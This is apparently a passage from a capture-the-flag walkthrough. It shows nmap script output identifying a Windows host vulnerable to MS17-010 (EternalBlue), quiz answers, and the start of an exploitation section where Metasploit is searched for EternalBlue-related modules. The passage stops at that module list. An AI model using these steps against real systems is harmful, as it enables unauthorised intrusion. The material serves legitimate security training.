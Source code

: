 ```bash
|_ssl-ccs-injection: No reply from server (TIMEOUT)
|_sslv2-drown:
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49158/tcp open  msrpc         Microsoft Windows RPC
49160/tcp open  msrpc         Microsoft Windows RPC
MAC Address: 02:21:D5:96:7A:D3 (Unknown)
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms17-010:
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 322.14 seconds
```

From the output of the scan we can see that the system has a few vulnerabilities.

**Question:** How many ports are open with a port number under 1000? **3**  
**Question:** What is this machine vulnerable to? **ms17-010**

## Exploitation

Now we are going to attempt to gain access to the machine using the **ms17-010** vulnerability.  
For this task we use Metasploit which is an exploitation framework that comes prepackaged with a considerable amount of exploits and payloads.  
They are organized in modules and basically allow us to exploit a vulnerable machine with a few clicks.

Let's start metasploit with the command `msfconsole` and search exploits for our vulnerability.

```bash
msf6 > search ms17-010 type:exploit

Matching Modules
================

   #  Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   2  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution
```
